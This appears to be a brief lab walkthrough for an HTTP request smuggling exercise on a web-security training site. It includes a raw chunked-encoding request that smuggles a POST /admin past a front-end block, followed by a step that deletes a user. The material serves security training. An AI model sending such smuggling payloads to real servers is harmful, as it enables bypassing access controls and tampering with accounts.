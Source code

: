 
1. Try to access the admin path

![](/static/img/Pasted_image_20231201131527.png)

2. Notice that the `/admin` path is forbidden;
3. Send the following request;

![](/static/img/Pasted_image_20231201132658.png)

```http

POST / HTTP/1.1
Host: 0a2f00e2038e6fc281f22f8500760033.web-security-academy.net
Content-Legnth: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

4. Send the following request to delete the carlos user;

![](/static/img/Pasted_image_20231201135653.png)

![](/static/img/Pasted_image_20231201135705.png)

